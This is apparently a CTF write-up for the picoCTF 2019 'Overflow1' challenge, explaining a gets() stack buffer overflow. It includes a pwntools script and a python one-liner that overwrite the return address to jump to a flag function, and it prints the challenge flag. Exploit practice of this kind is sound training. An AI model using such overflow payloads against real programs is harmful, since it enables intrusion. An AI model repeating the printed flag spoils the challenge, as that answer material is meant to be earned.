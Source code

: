 # PicoCTF 2019 - Binary Exploit - Overflow1

Simple buffer overflow,
the actual vulnerability is inside the function 'vuln'

## The vulnerability
it calls 'gets', a function that is known the be very dangerous (it even says it in the man page to never use this function)
The reason this function is dangerous is because of how it works:
'gets(char \*s)  reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\\0').  No check for buffer overrun is performed'
So it keeps reading input, even if this is way bigger then the amount of memory allocated for that string
Causing it the overwrite values from the stack

## File info
```
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow1]$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=5d4cdc8dc51fb3e5d45c2a59c6a9cd7958382fc9, not stripped
[Sain@kali:~/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow1]$ checksec vuln
[*] '/home/sain/ctf/CTF_Writeups/picoCTF2019/Binary/OverFlow1/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```
## Exploiting it
The plan is to overwrite the return address by overflowing the buffer and rewriting the values on the stack.

First we need to find the buffer (how many characters are allocated to fit in the given string)

We are given the source code so we can see the 'buffsize' variable which is the used buffer here for our string, so our string is allocated to hold 64 characters

so if we give as input a string of 64 characters + 4 characters we are overflowing our buffer.. yay :)

but we arent overwriting our return pointer yet, its still a few bytes out of range!

if we dissassembly and go through the 'vuln' function step by step we can see the return address gets loaded from [ebp-0x4]
so lets walk through the program

___Registers note___;

* __esp__ = the stack pointer; it points to where the stack begins (the 'top' of the stack)

* __ebp__ = the stack frame pointer;

The stack grows from esp -> ebp -> and past it

![picture alt](https://i.gyazo.com/4f6fe4c601e114590933f72ca9aa6f54.png)

The look from $esp:

![picture alt](https://i.gyazo.com/7f06c8a65a792ed684dc6cf60e71b029.png)

As you can see, using a string "A" of length 64 we are still, 12 bytes of overwriting the return address to main
The address we want to overwrite is  `0x08048705` - it points to main+103
so we need to add 12 bytes to our overflow + another 4 bytes containing the address we want to jump to which is the flag function ( located @ `0x080485e6` )

Here is another picture of our stack
the string used was "A" * 64 + "B" * 12

![picture alt](https://i.gyazo.com/053b6657196d6664ebb6991b1d8504e8.png)

As you can see adding the 12 more bytes puts with the character B (0x42) puts the main address (`0x08048700`) right next to us 
(idk why it now points to main+98 and +103 earlier) 
now all that is left is to write the remaining 4 bytes as a address to the function we want
_Remember that you have to write the target address in little endian!_

now to write our exploit script, i used python & pwntools (note: this is setup to work locally, if you want it to work on the picoCTF server check exploit.py -i couldnt get the script to work properly using the pwntools ssh so you are supposed to run it manually now);

```python
from pwn import *
# Flag function is located @ 0x080485e6
flag_function = util.packing.p32(0x080485e6)
# overwrite our buffer + the 3 other addresses we dont need
buff = "A" * 64 + "B" * 12
payload = buff + flag_function
p = process("./vuln")
p.recvuntil("")
p.sendline(payload)
print p.recvall()
```

I had some trouble with the script but the output should be something like:
```
Sain@pico-2019-shell1:/problems/overflow-1_4_6e02703f87bc36775cc64de920dfcf5a$ python -c "print 'A' * 76 + '\xe6\x85\x04\x08'" | ./vuln
Give me a string and lets see what happens:
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5bbbf8810}Segmentation fault (core dumped)
```